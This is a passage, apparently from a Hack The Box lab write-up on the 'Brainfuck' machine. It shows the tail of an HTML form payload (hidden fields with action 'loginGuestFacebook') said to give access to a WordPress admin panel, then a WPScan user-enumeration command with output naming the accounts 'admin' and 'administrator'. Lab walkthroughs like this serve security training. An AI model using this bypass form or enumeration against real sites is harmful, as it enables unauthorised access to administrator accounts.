 ```bash
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>

Then you can go to admin panel.                                                                                                                                                                    
```

Enumerating Usernames with WPScan

```bash
                                                                                                                                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://brainfuck.htb/ [10.10.10.17]
<redacted>
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <======================================================================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

<redacted>
```
